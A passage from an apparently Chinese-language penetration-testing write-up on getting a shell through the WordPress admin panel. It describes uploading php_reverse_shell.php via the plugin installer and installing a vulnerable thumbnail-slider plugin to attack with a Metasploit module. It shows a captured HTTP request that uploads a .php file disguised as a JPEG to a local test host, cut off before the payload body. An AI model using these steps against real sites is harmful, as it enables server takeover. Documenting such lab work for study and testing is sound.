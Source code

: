 ### 方法3、php上传

直接在插件安装页面上传php\_reverse\_shell.php 然后在/wp-content/includes/中访问  
上传过程中会发生报错 但不影响文件正常上传和访问

### 方法4、安装脆弱插件

比如安装wp\_responsive-thumbnail-slider 1.0  
[https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php](https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php)  
[![](assets/1706513536-e0ed778d34e0d28776ad915e04cc3a26.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705929451952-7393e2dd-f60b-473b-847e-6b5a2d54d6a1.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=610&id=u354fe16b&originHeight=1220&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=217350&status=done&style=none&taskId=ue3b1c50c-2cc4-4347-b1f2-5a2f438adc7&title=&width=1547)  
安装并启用后使用metasploit的multi/http/wp\_responsive\_thumbnail\_slider\_upload模块进行攻击  
但在使用这个模块时发现攻击不成功 打开msfconsole的httptrace功能 检查一下交互流量  
shell上传流量 响应状态码200 检查后发现文件上传成功

```plain
POST /wp-admin/admin.php?page=responsive_thumbnail_slider_image_management/&action=addedit HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
Content-Type: multipart/form-data; boundary=---------------------------743289811480519521793446209521
Content-Length: 2471

-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="image_name"; filename="KSXrN.php"
Content-Type: image/jpeg

```